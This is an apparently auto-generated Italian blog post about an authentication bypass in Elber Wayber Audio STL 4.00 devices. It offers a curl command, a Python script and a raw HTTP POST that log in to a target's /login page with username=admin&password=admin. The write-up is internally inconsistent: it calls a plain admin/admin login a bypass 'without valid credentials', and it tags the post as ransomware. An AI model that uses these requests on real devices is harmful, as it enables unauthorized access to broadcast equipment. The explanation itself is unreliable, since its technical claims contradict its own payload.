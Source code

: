 ```yaml
---
layout: post
title: '[webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Authentication Bypass' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# [webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Authentication Bypass

## Introduzione
In questo articolo, verrà esaminata una vulnerabilità di sicurezza identificata nel software Elber Wayber Analog/Digital Audio STL 4.00 che consente l'aggiramento dell'autenticazione. Questa vulnerabilità, se sfruttata, potrebbe avere gravi conseguenze, permettendo a un potenziale attaccante di accedere a funzionalità riservate senza necessità di fornire credenziali valide.

## Dettagli della vulnerabilità
La vulnerabilità riguarda l'implementazione dell'autenticazione nel software Elber Wayber Analog/Digital Audio STL 4.00. Tutte le versioni fino alla 4.00 sono interessate. Essa si manifesta quando un attaccante invia una richiesta HTTP particolare, che consente di bypassare il processo di autenticazione.

## Esempio di Payload Semplice

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: TARGET' -H $'Content-Length: 28' -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'username=admin&password=admin' \
    $'http://TARGET/login'
```

## Conversione in Python del Payload Semplice

```python
import requests

url = "http://TARGET/login"
payload = {'username': 'admin', 'password': 'admin'}
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

response = requests.post(url, headers=headers, data=payload)
```

## Spiegazione tecnica
Il comando `curl` invia una richiesta HTTP POST al target specificato con un payload che contiene `username=admin&password=admin`. L'equivalente codice Python utilizza la libreria `requests` per fare lo stesso.

## Procedura per riprodurre la vulnerabilità
Per riprodurre questa vulnerabilità, è necessario inviare una richiesta HTTP POST all'URL di login del target, includendo nel corpo della richiesta i parametri `username=admin&password=admin`.

## Richiesta HTTP
La richiesta HTTP inviata è la seguente:

```http
POST /login HTTP/1.1
Host: TARGET
Content-Length: 28
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

## Impatto della vulnerabilità
Questa vulnerabilità potrebbe consentire a un attaccante di bypassare il processo di autenticazione e accedere a funzionalità riservate senza necessità di fornire credenziali valide. Ciò potrebbe portare a gravi conseguenze, compreso l'accesso non autorizzato a dati sensibili.

## Patch e Mitigazioni
Al momento non sono disponibili patch o mitigazioni per questa vulnerabilità. Consigliamo di monitorare attentamente l'activity log e di limitare l'accesso all'URL di login solo da reti fidate.

## Conclusione
Questa vulnerabilità sottolinea l'importanza di implementare correttamente i controlli di autenticazione nei sistemi software. Mentre attendiamo una patch o una mitigazione ufficiale, è fondamentale monitorare attentamente l'activity log e limitare l'accesso alle funzionalità di login solo da reti fidate.

